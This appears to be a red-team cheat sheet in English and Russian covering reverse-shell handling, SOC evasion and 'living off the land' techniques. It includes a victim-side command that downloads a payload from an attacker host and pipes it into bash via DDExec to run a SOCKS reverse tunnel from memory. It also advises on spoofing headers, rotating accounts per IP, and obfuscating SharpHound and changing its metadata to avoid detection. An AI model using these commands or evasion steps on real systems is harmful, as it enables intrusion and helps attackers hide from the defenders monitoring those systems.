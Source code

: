 ## CLI tricks

Use `script` command to log history from your reverse shells:
```
script filename.out
```
Use [rlwrap](https://github.com/hanslub42/rlwrap) to add some comfort into nc shells.
## SOC evasion

Желательно использовать одну учетную запись для входа с каждого IP-адреса, не переиспользовать их, а также не подключаться с тех адресов, которые использовались для внешней разведки.

Рекомендуется менять заголовки `X-Forwarded-For` и `User-Agent` во время использования автоматических средств.

Помимо обфускации исходного кода у известных утилит, таких, как SharpHound, рекомендуется также изменять их метаданные (описание, заданное разработчиком исходное имя, цифровую подпись и т. д.), а также зашивать ключи для запуска, чтобы их не было видно в процессах.
## Living off the land

Run ELF executables directly from the memory with [DDExec](https://github.com/arget13/DDexec):

```bash
attacker@kali$ cat revsocks | base64 -w0 > revsocks.b64
attacker@kali$ python3 -m http.server
```

```bash
user@victim$: curl $KALI_ADDR:8000/revsocks.b64 | bash <(curl $KALI_ADDR:8000/ddexec.sh) /bin/nothing-here -connect $KALI_ADDR:8443 -pass SuperSecretPassword
```
It is also possible [to run DDExec without dd](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions/bypass-fs-protections-read-only-no-exec-distroless/ddexec).

To compile executables without dependencies:
```
gcc -static exp.c -o exp -l mnl -l nftnl -w
CGO_ENABLED=0 go build ldflags='-s -w' -o /cmd/agent/main.go # golang
```
You can also try [static-get](https://github.com/minos-org/minos-static).

>Notice that Alpine uses musl libc instead of glibc.

## Obfuscation

### NetAssembly

https://github.com/b4rtik/metasploit-execute-assembly

### LLVM

TODO